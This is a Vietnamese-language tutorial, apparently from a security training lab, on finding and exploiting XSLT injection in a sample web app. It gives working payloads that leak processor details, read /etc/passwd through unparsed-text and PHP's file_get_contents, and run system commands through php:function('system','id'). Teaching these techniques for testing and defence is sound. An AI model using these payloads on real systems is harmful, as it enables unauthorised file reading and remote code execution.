




# Exploiting XSLT Injection

## Identifying XSLT Injection

Ứng dụng web mẫu của chúng tôi hiển thị thông tin cơ bản về một số mô-đun của Học viện:



Ở cuối trang, chúng ta có thể cung cấp tên người dùng được chèn vào tiêu đề ở đầu danh sách:



Như chúng ta thấy, tên mà chúng ta cung cấp được hiển thị trên trang. Giả sử ứng dụng web lưu trữ thông tin mô-đun trong một tài liệu XML và hiển thị dữ liệu bằng cách sử dụng xử lý XSLT.

Trong trường hợp đó, nó có thể dễ bị tấn công XSLT nếu tên của chúng ta được chèn vào mà không được làm sạch trước khi xử lý XSLT.

Để xác nhận điều này, chúng ta hãy thử chèn một thẻ XML bị lỗi để gây ra lỗi trong ứng dụng web. Chúng ta có thể thực hiện điều này bằng cách cung cấp tên người dùng `<`:



Như chúng ta thấy, ứng dụng web phản hồi bằng lỗi máy chủ. Mặc dù điều này **không khẳng định** chắc chắn sự tồn tại của lỗ hổng tấn công XSLT, nhưng nó có thể cho thấy sự hiện diện của một vấn đề bảo mật.

# Information Disclosure

Chúng ta có thể thử suy luận một số thông tin cơ bản về bộ xử lý XSLT đang được sử dụng bằng cách chèn các phần tử XSLT sau:

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

Ứng dụng web đưa ra phản hồi sau:



# Local File Inclusion (LFI)

Chúng ta có thể thử sử dụng nhiều hàm khác nhau để đọc một tập tin cục bộ. Việc payload có hoạt động hay không phụ thuộc vào phiên bản XSLT và cấu hình của thư viện XSLT.

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

nếu thư viện hỗ trợ PHP 

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

# Remote Code Execution (RCE)

Nếu bộ xử lý XSLT hỗ trợ các hàm PHP, chúng ta có thể gọi một hàm PHP thực thi lệnh hệ thống cục bộ để đạt được khả năng thực thi mã từ xa (RCE). Ví dụ, chúng ta có thể gọi hàm PHP system để thực thi một lệnh:

```xml
<xsl:value-of select="php:function('system','id')" />
```

